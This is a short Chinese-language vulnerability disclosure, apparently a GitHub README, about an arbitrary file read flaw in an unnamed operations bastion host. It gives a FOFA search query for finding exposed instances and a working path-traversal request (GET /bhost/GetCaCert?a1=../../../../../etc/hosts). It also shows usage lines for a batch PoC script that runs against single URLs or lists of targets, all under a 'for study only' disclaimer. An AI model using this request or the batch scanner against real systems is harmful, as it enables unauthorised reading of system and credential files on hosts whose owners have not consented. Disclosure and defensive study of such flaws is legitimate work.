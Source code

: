 某运维堡垒机存在任意文件读取漏洞

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与作者无关。该文章仅供学习用途使用！！！

fofa：banner="Set-Cookie: bhost=" || header="Set-Cookie: bhost="



GET /bhost/GetCaCert?a1=../../../../../etc/hosts HTTP/1.1
Host: 127.0.0.1



直接GET请求即可


批量poc(记得安装库)

python poc.py -u 


python poc.py -f  .txt

